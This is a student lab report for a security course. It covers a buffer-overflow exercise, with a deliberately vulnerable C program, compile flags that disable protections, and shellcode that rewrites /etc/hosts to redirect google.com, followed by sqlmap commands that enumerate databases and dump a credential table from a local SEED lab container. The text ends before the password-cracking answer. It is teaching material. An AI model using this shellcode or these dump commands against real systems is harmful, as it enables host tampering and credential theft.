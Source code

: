 https://github.com/Bright-04/Lab1-INSE330380E_24_1_02FIE.git


# Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:
![image](img/stackframe.png)
### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

# Task 2: SQL Injection Attack Using SQLMap

## Environment Setup
- Launched SQLi lab Docker container
- Installed SQLMap for automated SQL injection testing
- Documented steps with relevant screenshots

**Question 1**: Enumerate Available Databases Using SQLMap
**Answer 1**:
I performed initial database enumeration using SQLMap with the following command:

```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs
```

The scan revealed two databases on the target system:
1. information_schema
2. sqllab_users

![Database enumeration results](img/AvailableDBS.png)
![Detailed database listing](img/ADBS2.png)

**Question 2**: Extract Database Tables and User Information
**Answer 2**:
I executed two separate SQLMap commands to gather detailed information about the database structure and contents:

First, to enumerate tables in the information_schema database:
```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```

Then, to extract user credentials from the sqllab_users database:
```bash
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```

Results:
- Successfully identified database tables and structure
- Retrieved user credentials from the credential table

![Database table listing](img/DBSL.png)
![Extracted credentials](img/credential.png)

**Question 3**: Password Cracking with John the Ripper
**Answer 3**:
